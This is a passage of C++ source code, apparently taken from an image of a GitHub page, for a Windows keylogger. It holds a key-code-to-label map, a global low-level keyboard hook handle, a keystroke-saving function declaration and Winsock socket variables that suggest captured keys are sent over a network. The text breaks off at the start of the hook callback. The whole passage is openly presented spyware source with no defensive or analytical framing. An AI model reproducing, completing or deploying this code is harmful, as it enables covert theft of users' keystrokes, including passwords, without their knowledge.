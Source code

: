 ```cpp
#define FORMAT 0
// defines if ignore mouseclicks
#define mouseignore
// variable to store the HANDLE to the hook. Don't declare it anywhere else then globally
// or you will get problems since every function uses this variable.

#if FORMAT == 0
const std::map<int, std::string> keyname{
	{VK_BACK, "[BACKSPACE]" },
	{VK_RETURN,	"\n" },
	{VK_SPACE,	"_" },
	{VK_TAB,	"[TAB]" },
	{VK_SHIFT,	"[SHIFT]" },
	{VK_LSHIFT,	"[LSHIFT]" },
	{VK_RSHIFT,	"[RSHIFT]" },
	{VK_CONTROL,	"[CONTROL]" },
	{VK_LCONTROL,	"[LCONTROL]" },
	{VK_RCONTROL,	"[RCONTROL]" },
	{VK_MENU,	"[ALT]" },
	{VK_LWIN,	"[LWIN]" },
	{VK_RWIN,	"[RWIN]" },
	{VK_ESCAPE,	"[ESCAPE]" },
	{VK_END,	"[END]" },
	{VK_HOME,	"[HOME]" },
	{VK_LEFT,	"[LEFT]" },
	{VK_RIGHT,	"[RIGHT]" },
	{VK_UP,		"[UP]" },
	{VK_DOWN,	"[DOWN]" },
	{VK_PRIOR,	"[PG_UP]" },
	{VK_NEXT,	"[PG_DOWN]" },
	{VK_OEM_PERIOD,	"." },
	{VK_DECIMAL,	"." },
	{VK_OEM_PLUS,	"+" },
	{VK_OEM_MINUS,	"-" },
	{VK_ADD,		"+" },
	{VK_SUBTRACT,	"-" },
	{VK_CAPITAL,	"[CAPSLOCK]" },
};
#endif
HHOOK _hook;

// This struct contains the data received by the hook callback. As you see in the callback function
// it contains the thing you will need: vkCode = virtual key code.
KBDLLHOOKSTRUCT kbdStruct;

int Save(int key_stroke);

WSADATA wsaData;
SOCKET ConnectSocket = INVALID_SOCKET;
struct addrinfo* result = NULL,
	* ptr = NULL,
	hints;
int iResult;

// This is the callback function. Consider it the event that is raised when, in this case,
// a key is pressed.
LRESULT __stdcall HookCallback(int nCode, WPARAM wParam, LPARAM lParam)
{
	if (nCode >= 0)
	{
		// the action is valid: HC_ACTION.
		if (wParam == WM_KEYDOWN)
		{
```